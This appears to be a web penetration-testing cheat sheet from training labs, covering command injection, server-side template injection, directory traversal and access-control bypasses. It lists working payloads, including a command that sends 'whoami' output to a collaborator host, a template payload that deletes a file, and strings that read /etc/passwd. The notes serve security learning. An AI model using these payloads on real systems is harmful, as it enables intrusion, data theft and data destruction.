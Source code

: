     - **[http://localhost/admin](http://localhost/admin)**
    - 192.168.0.0/24

# OS Command Injection

Look for a feedback form and break the email parameter (based on the labs).

- Interrupting a command using &, ||, ;, etc.
- Check if an error occurs when inserting the above symbols.
- Detect blind injections with "& sleep 10 &"
- Use "& nslookup $(whoami).BURP-COLLAB &" to perform command injection.

# SSTI

Look for a a parameter that is rendering directly to the page. Look for templates if you have admin access to edit the templates of a page

- ERB: `<%= %>`
- Tornado: `""}}{% import os %}{{os.system("rm /home/carlos/morale.txt")`
- Jinja2: Use `{% debug %}` to gather information, targeting `setting.SECRET_KEY`
- See **[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)** for more information
- Login with content-manager:C0nt3ntM4n4g3r.

# Directory Traversal

Look for images or files being loaded with a a parameter such as `filename=`

```
../../../etc/passwd # Simple case
..%252f..%252f..%252fetc/passwd # Double URL Encoding
....//....//....//etc/passwd # Stripped non-recursively
../../../etc/passwd%00.png # Null byte bypass
images/../../../etc/passwd # Validation of start of path
```

- Test with relative and absolute paths
- Use Burp Intruder's Fuzzing List
- If "../" is being removed, try using "//"
- Double URL encoding
- If it just needs to start with a specific string, use "/var/www/images/../../../etc/passwd"

# Access Control

X-Original-URL: /admin

Change request method from POST to GET to test access control

Referer header based access control (add the /admin path as a referer header when trying to directly perform an admin action)

- Rewrite query parameters, message body, HTTP method, headers (e.g. Referer), and cookies
- Try unknown methods like POSTX
- Rewrite the Host header.
